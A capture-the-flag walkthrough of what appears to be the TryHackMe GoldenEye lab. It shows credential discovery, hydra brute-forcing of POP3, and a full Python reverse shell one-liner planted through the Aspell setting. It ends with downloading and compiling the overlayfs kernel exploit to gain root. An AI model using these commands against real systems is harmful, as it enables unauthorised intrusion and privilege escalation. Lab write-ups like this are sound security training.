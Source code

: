 `Machine ip: xx.xx.xxx.xx`

Running a nmap scan on the target we get the open ports:

`Open Ports:
25 stmp
80 http
55007 pop3
55006 
`

`Password from website source:
73 110 118 105 110 99 105 98 108 101 72 97 99 107 51 114
InvincibleHack3r --> decoded`

Search and replace for converting to a form that some online decoder can understand.

The site says navigate to a /sev-home/, so do that. Now we're at a login screen.

We know the username is boris from the source and we decoded the password.

`User: boris Password: InvincibleHack3r (For the http port)`

These creds don't work when we try to login into pop3 port \((pop3 command line)[https://electrictoolbox.com/pop3-commands/] \). So, we use hydra to brute-force the password there.

We don't anything for boris so we try again with natalya.

`hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.10.28.74:55007`

We get a hit for the natalya 

`User: natalya Password: bird (For the pop3 port)`

After connecting to the pop3 port we use pop3 commands to get to the information we need.

list command lists the files and retr \<filename\> displays them. We see 2 mails but the first one is useless and the second one contains some creds.

`User: xenia Password: RCP90rulez!(For the http port)`

We got the password but the mail said: 
`And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....
Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.`

So we add \<machine_ip\> severnaya-station.com/gnocertdir to our /etc/hosts to access it on the browser.

Now logging as xenia in that website. According to tryhackme, we need to find another user. He is named doak. We try to brute-force his password again using hydra. 

`User: doak Password: goat(For the pop3 port)`

We login into doak's pop3 account and read his emails too to get his http site password.

`User: dr_doak Password: 4England!(For the http port)`

Logging into the website using these creds we poke around even further. We find a file called s3cret.txt.

It redirects us to a `/dir007key/for-007.jpg` saying there is something juicy there.

It's an image with some stegnography probably. Running exiftool command, we see the image description is base64. Decoding it we get 'xWinter1995x!'

we can assume this is the password for the admin user as that was the only other account in dr_doak.

We log into admin account using these creds.

`User: admin Password: xWinter1995x!`

Tryhackme told us to look for Aspell. We can search for it in the search bar below and we find a place to add a python reverse shell :).
We also need to change the spell engine to *PspellShell* that's after googling I found out that that's what's compatible with python.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Listening to the port on our system we get a shell. To find the kernal version we use _uname -a_.

The kernel version is 3.13.0-32-generic which is a very outdated kernel so exploit.db must have a priv esc script. There is [one](https://www.exploit-db.com/exploits/37292) and then download it onto the vm server
using python simple http server and wget.

_python -m SimpleHTTPServer_

Trying to compile the code using `gcc` we find that `gcc` is not installed but cc is.

So all we need to do is to replace `gcc` by `cc` in the exploit.

_sed -i "s/gcc/cc/g" overlayfs.c_

Now we compile and run this to get root access.

_cc overlayfs.c -o root_access_
_./root_access_

We get some warnings but we can ignore them for now as we're root already.

Now nagvigate over to the root floder and `cat` the hidden root flag.

#And We're Done!